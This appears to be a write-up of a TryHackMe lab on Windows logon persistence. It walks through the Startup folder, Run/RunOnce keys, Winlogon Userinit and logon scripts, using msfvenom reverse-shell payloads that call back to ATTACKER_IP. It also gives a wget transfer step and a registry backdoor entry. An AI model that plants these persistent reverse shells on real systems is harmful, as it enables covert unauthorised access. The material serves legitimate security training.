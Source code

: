 # Windows Local Persistence: Logon Triggered Persistence

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This guide explores methods to plant payloads that execute when a user logs into the system.

---

## Startup Folder

Each user has a folder under:

```
C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

You can place executables in this folder to run whenever the user logs in. Attackers can achieve persistence by dropping a payload here. Note that each user will only execute files in their specific folder.

To force all users to run a payload at logon, use the folder:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

### Example: Reverse Shell Payload

1. Generate a reverse shell payload using `msfvenom`:

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
    ```

2. Transfer the payload to the victim machine:

    ```bash
    python3 -m http.server
    wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe
    ```

3. Store the payload in the startup folder:

    ```cmd
    copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
    ```

4. Sign out and log back in via RDP to trigger the payload.

**THM Flag**: Use the shell to execute `C:\flags\flag10.exe` and retrieve the flag.

---

## Run / RunOnce Registry Keys

You can force a user to execute a program on logon via the registry. Use the following registry entries:

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

- **`HKCU` keys**: Apply to the current user.
- **`HKLM` keys**: Apply to all users.

### Example: Reverse Shell Payload

1. Generate a reverse shell payload:

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
    ```

2. Transfer and move the payload:

    ```cmd
    move revshell.exe C:\Windows
    ```

3. Create a `REG_EXPAND_SZ` entry under:

    ```
    HKLM\Software\Microsoft\Windows\CurrentVersion\Run
    ```

    - Name: `MyBackdoor`
    - Value: Path to the payload.

4. Sign out and log back in to trigger the payload.

**THM Flag**: Use the shell to execute `C:\flags\flag11.exe` and retrieve the flag.

---

## Winlogon Registry Keys

Winlogon manages user profile loading after authentication. The following registry keys can be abused for persistence:

- `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`
- `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`

Appending commands to these keys allows execution without breaking the logon sequence.

### Example: Reverse Shell Payload

1. Generate a reverse shell payload:

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
    ```

2. Transfer and move the payload:

    ```cmd
    move revshell.exe C:\Windows
    ```

3. Modify the `Userinit` key to include the payload:

    ```
    HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
    ```

4. Sign out and log back in to trigger the payload.

**THM Flag**: Use the shell to execute `C:\flags\flag12.exe` and retrieve the flag.

---

## Logon Scripts

The `userinit.exe` process checks for the `UserInitMprLogonScript` environment variable during logon. This variable can be used to assign a script to a user.

### Example: Reverse Shell Payload

1. Generate a reverse shell payload:

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
    ```

2. Transfer and move the payload:

    ```cmd
    move revshell.exe C:\Windows
    ```

3. Create the `UserInitMprLogonScript` environment variable under:

    ```
    HKCU\Environment
    ```

    - Value: Path to the payload.

4. Sign out and log back in to trigger the payload.

**THM Flag**: Use the shell to execute `C:\flags\flag13.exe` and retrieve the flag.
